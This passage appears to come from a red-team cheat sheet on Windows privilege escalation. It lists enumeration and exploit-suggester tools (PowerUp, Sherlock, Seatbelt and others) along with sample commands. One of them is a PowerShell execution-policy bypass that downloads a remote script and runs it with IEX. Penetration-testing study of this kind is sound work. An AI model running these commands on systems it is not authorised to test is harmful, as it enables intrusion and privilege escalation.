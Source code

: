     * [MS17-010 (Eternal Blue)](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#ms17-010-eternal-blue)
    * [CVE-2019-1388](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#cve-2019-1388)
* [EoP - $PATH Interception](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop---path-interception)
* [References](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#references)

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)

```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

    
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
```    
    
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
    
```
./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```    
    
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
```
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    
```
    
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
    